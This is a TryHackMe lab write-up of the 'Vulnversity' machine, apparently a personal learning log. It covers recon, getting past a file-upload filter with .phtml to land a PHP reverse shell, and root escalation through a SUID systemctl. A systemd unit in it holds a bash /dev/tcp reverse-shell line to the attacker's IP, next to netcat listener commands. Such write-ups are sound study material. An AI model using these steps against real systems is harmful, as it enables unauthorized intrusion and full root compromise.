










# Vulnversity — Writeup

> **Platform:** TryHackMe
> **Difficulty:** Easy
> **Date:** 24-08-2026
> **Status:** Resolved ✅
> **Target:** 10.146.167.35 (deployed machine)

---

## 🎯 TL;DR

Vulnversity is an easy Linux machine that walks through the full pentest methodology: active reconnaissance with nmap, web enumeration with gobuster, exploitation of a file-upload filter bypass (`.php` → `.phtml`) to get a reverse shell, and privilege escalation abusing a SUID-bit `systemctl` via a malicious systemd unit.

---

## 🗺️ Methodology

### 1. Reconnaissance

**Command:**
```bash
sudo nmap -sV 10.146.167.35
```



**Result:**

| Port | Service | Version |
|------|---------|---------|
| 21/TCP | FTP | vsftpd 3.0.5 |
| 22/TCP | SSH | OpenSSH 8.2p1 Ubuntu |
| 139/TCP | netbios-ssn | Samba smbd 4 |
| 445/TCP | netbios-ssn | Samba smbd 4 |
| 3128/TCP | http-proxy | Squid proxy 4.10 |
| 3333/TCP | HTTP | Apache httpd 2.4.41 (Ubuntu) |

**Observation:** Port 3333 is the interesting one — a non-standard web service. 994 ports closed, single host up.

### 2. Enumeration

**Command:**
```bash
gobuster dir -u http://10.146.167.35:3333 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```



**Result:**
- `/images/` → 301
- `/css/` → 301
- `/js/` → 301
- **`/internal/` → 301** ← jackpot: an upload page

**Finding:** `http://10.146.167.35:3333/internal/` hosts a file upload form.



### 3. Exploitation — Upload filter bypass + reverse shell

The upload page filters extensions. Testing common ones revealed that PHP files are rejected **except** when the extension is `.phtml` (filter bypass).

**Payload:** `php-reverse-shell.php` from pentestmonkey ([repo](https://github.com/pentestmonkey/php-reverse-shell)), renamed to `php-reverse-shell.phtml`, with attacker IP/port set.



**Upload:** `http://10.146.167.35:3333/internal/index.php` → `Success ✅`



**Trigger + listener (attacker Kali):**
```bash
rlwrap nc -lvnp 1234
# browse to http://10.146.167.35:3333/internal/uploads/php-reverse-shell.phtml
```

**Result:**
```
connect to [192.168.129.155] from (UNKNOWN) [10.146.167.35] 48264
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
```
Low-privilege shell obtained. Upgrade on the box: `python3 -c 'import pty;pty.spawn("/bin/bash")'` (or `script`).



### 4. Privilege Escalation — SUID `systemctl`

**Enumeration:**
```bash
find / -perm -4000 2>/dev/null
```
`/bin/systemctl` appears with the SUID bit and root ownership → GTFOBins technique: create a malicious systemd unit and run it as root via `systemctl`.



**Unit (`/tmp/rvsh.service`):**
```ini
[Service]
Type=oneshot
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/192.168.129.155/4444 0>&1"
[Install]
WantedBy=multi-user.target
```



**Fire it:**
```bash
systemctl link /tmp/rvsh.service      # register the unit
systemctl enable --now rvsh           # enable + start
```
> ⚠️ First attempt `systemctl enable --now /tmp/rvsh` failed with *"Failed to enable unit: Invalid argument"* — systemd expects the unit name, not the full path. Using `rvsh` worked.



**Listener (attacker Kali):**
```bash
rlwrap nc -lvnp 4444
```

**Result:**
```
connect to [192.168.129.155] from (UNKNOWN) [10.146.167.35] 50154
bash: cannot set terminal process group: Inappropriate ioctl for device
# whoami
root
```
**ROOT ✅** — full system compromise.



---

## 🏁 Flags / Conclusion

| Flag | Status |
|------|--------|
| User/flag questions | ✅ completed (room 100%) |
| Root shell | ✅ `uid=0` |

*(Room completed — "Room completed! Your skills are skyrocketing!" — 104 pts, streak 61.)*

---

## 🧠 What I learned

- Non-standard ports (3333) deserve attention — always map services with `-sV`
- Upload filters by extension are bypassable: test alternates like `.phtml`, `.php5`, `.phar`
- pentestmonkey PHP reverse shell is the go-to for LAMP stacks
- **SUID + GTFOBins**: a root-owned SUID binary like `systemctl` = arbitrary command execution as root via systemd units
- `systemctl enable` needs the unit **name**, not the path — reading the error messages wins
- `rlwrap` makes reverse shell sessions usable (history + arrow keys)

## 🛠️ Tools used

`nmap` · `gobuster` · `nc`/`rlwrap` · `pentestmonkey php-reverse-shell` · `find` (SUID) · `systemctl` (GTFOBins)

---

## ⚠️ Ethical note

Machine resolved on an authorized platform (TryHackMe). All practice is performed exclusively in legal environments.